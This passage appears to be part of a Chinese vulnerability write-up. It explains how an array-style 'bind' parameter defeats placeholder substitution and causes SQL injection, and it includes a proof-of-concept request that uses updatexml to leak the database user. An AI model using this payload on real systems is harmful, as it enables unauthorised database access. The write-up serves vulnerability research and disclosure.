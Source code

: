 替换后：

![image](../img/887c6a8cdd532265dc52c3ffe54c908d.png)

明显发现之前的`user`参数为:0然后被替换为了liao，这样就把:替换掉了。
后面的:1明显是替换不掉的：

![image](../img/28417c9af372becebe1d34c4617471ee.png)

那么我们将id[1]数组的参数变为0呢？

```
id[]=bind&id[]=0%27&money[]=1123&user=liao 
```

![image](../img/e1750b205bcc91f7bdab5b688ebd3164.png)

果然造成了注入：

### poc

```
money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1)) 
```

![image](../img/a1e407b1f34f62bd8c6a3a86bf210c48.png)

## 参考链接

> https://www.anquanke.com/post/id/104847